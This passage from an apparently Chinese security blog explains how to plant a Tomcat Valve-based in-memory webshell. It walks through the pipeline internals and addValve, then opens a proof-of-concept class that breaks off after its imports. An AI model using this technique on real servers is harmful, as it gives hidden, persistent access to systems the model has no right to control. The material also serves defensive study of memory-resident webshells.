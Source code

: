 ```java
StandardContextValue.invoke() -> request.getWrapper() (得到StandardWrapper) wrapper.getPipeline().getFirst().invoke() -> StandardWrapperValve.invoke
```

完美对应了上图。

这其中每一步都会调用到getPipeline去获取StandardPipeline

再一次跟进到connector.getService().getContainer().getPipeline()内，发现调用类为ContainerBase

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250308173431658.png)

同时，根据上面的链子，StandardEngine、StandardHost、StandardContext、StandardWrapper都会调用getPipeline，很显然这四个类都继承了ContainerBase

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250308211459407.png)

而每一个getPipeline之后都会调用getFirst()

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250308212115490.png)

这意味着，一个Pipeline里不止一条信息，如果first不为空就返回first，否则返回basic。从这里大致能猜出，每个Pipeline实际上是个链表

我们看到同样在StandardPipeline包下的一个函数addValve：

如果当前Pipeline没有Valve（first为null），则将新Valve设置为第一个，并将其next指向basic。
如果已有Valve，则遍历链表，找到最后一个Valve（其next为basic），将新Valve插入到该位置，并将其next指向basic。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250308212451388.png)

所以我们可以通过addValve来添加一个自定义的valve到Pipeline，使getFirst返回它

解决了怎么添加Valve的问题，下面想在哪添加的问题。总之，内存马的构造都是解决两个问题：在哪添加，怎么添加

很显然只要能反射获取当前的StandardEngine、StandardHost、StandardContext、StandardWrapper，那么在以上任意一个组件中添加都可以

一个Valve该怎么写？看看StandardContextValve就可以了，继承了ValveBase

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250308213437907.png)

ValveBase又实现了Valve接口，那自定义Valve也实现这个接口就行了

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250308223331867.png)

比如在StandardContext中添加Valve POC：

```java
package org.example.tomcatmemshell.Valve;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.Context;
import org.apache.catalina.Pipeline;
import org.apache.catalina.Valve;
import org.apache.catalina.WebResourceRoot;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Response;
import org.apache.catalina.core.*;
import org.apache.catalina.loader.WebappClassLoaderBase;
import org.apache.catalina.valves.ValveBase;
import org.example.tomcatmemshell.Listener.ListenerMemShell;

import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
```